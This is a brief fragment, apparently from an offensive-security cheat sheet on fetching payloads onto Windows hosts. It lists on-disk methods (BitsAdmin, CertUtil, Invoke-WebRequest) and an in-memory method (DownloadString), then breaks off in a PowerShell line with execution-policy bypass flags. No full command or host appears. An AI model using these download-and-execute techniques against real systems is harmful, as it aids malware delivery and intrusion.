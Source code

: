 #### On-disk
##### BitsAdmin


##### CertUtil


##### Invoke-WebRequest



#### In-Memory
##### DownloadString
powershell.exe -nop -bypass -exec 